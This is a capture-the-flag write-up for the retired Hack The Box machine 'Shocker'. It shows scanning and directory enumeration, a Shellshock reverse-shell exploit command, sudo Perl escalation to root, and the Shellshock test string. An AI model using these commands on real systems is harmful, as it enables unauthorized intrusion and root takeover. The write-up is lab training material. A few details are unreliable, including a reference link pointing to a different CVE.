


# Shocker(Retired) HTB-CTF
## Machine Information

| Field | Value |
|------|------|
| Machine Name | Shocker |
| Difficulty | Easy |
| OS | Linux |
| Vulnerability | CVE-2014-6271 |
## Disclaimer
This write-up is for educational purposes only.
<br>The machine is retired from Hack The Box and no longer active.

## Attack Path
1. Conducted a full TCP port scan to identify open services.
2. Identified an HTTP service running on port 80.
3. Performed directory brute-forcing using Gobuster to find hidden endpoints.
4. Discovered a Shellshock (CVE-2014-6271) vulnerability in the /cgi-bin/ directory.
5. Exploited the vulnerability to gain an initial Foothold (User Shell).
6. Identified a misconfigured sudo privilege for the Perl binary (NOPASSWD).
7. Escalated privileges to root and retrieved both user and root flags.
## Reconnaissance
### Nmap Scan
```nmap -Pn -sS -sV -p- -T4 10.129.x.x -oA tcpAll```
### Result
```
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp  open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
### Web Enumeration

The Nmap scan revealed that port 80 was open and running an HTTP service.

To further investigate the web service, I accessed the application through a web browser by navigating to:

http://10.129.x.x

The page loaded successfully, indicating that the web server was accessible.



To discover hidden directories, directory brute forcing was performed using gobuster.<br>
```gobuster dir -u http://10.129.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -f```

```
cgi-bin/             (Status: 403) [Size: 294]
icons/               (Status: 403) [Size: 292]
.
.
.
```
Since the `/cgi-bin/` directory was discovered, further enumeration was performed on it.
```
Starting gobuster in directory enumeration mode
===============================================================
.htaccess            (Status: 403) [Size: 303]
.hta.sh              (Status: 403) [Size: 301]
.hta.pl              (Status: 403) [Size: 301]
.hta                 (Status: 403) [Size: 298]
.hta.cgi             (Status: 403) [Size: 302]
.htpasswd.sh         (Status: 403) [Size: 306]
.htpasswd            (Status: 403) [Size: 303]
.htaccess.sh         (Status: 403) [Size: 306]
.htaccess.pl         (Status: 403) [Size: 306]
.htaccess.cgi        (Status: 403) [Size: 307]
.htpasswd.cgi        (Status: 403) [Size: 307]
.htpasswd.pl         (Status: 403) [Size: 306]
user.sh              (Status: 200) [Size: 118]
```
The script `user.sh` was discovered in the `/cgi-bin/` directory.



After discovering `user.sh` in the `/cgi-bin/` directory and observing that the output of the `uptime` command was returned in the HTTP response, I suspected the presence of the Shellshock vulnerability.


## Exploitation
### Exploit Used
**Shellshock** Remote Command Injection

After discovering the `user.sh` script in the `/cgi-bin/` directory, the exploit was configured to target that specific CGI endpoint.

Example exploit execution:

```
python2 exploit.py payload=reverse rhost=10.129.x.x lhost=10.10.x.x lport=1234
```
## Foothold
After running the exploit, a reverse shell was obtained. To verify access:
```
10.129.x.x> whoami
shelly

10.129.x.x> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
## Privilege Escalation
After gaining an initial foothold, I executed the ```sudo -l``` command to identify any commands the current user could execute with root privileges.
command: 
```
sudo -l
```
output:
```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

Analysis: The output indicates that the user ```shelly``` can execute the ```/usr/bin/perl``` binary as root without requiring a password (NOPASSWD). This is a classic example of a Sudo Misconfiguration, providing a direct path for an attacker to escalate privileges to root.

Perl is a powerful scripting language capable of executing system commands. I leveraged this capability to invoke a root-level shell

```
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```
To confirm that root access was successfully obtained, I executed the whoami and id commands.
```
whoami
```
output:
```
root
```

## Flag
### User Flag
```/home/shelly/user.txt```
### Root Flag
```/root/root.txt```

## Vulnerability Analysis: 
CVE-2014-6271, commonly known as Shellshock, is a remote code execution vulnerability in GNU Bash. Its core issue is that when Bash processes a string in an environment variable that looks like a function definition, it also executes any additional commands appended after the function definition.

ex:
```
env x='() { :;}; echo vulnerable' bash -c "echo test"
```
if Vulnerability is exist print ```vulnerable```
if Vulnerability is not exist print ```echo test```
## Tools Used
- Nmap
- gobuster
- burpsuite
- python exploit
## References
https://nvd.nist.gov/vuln/detail/CVE-2014-6247<br>
https://www.exploit-db.com/exploits/40619


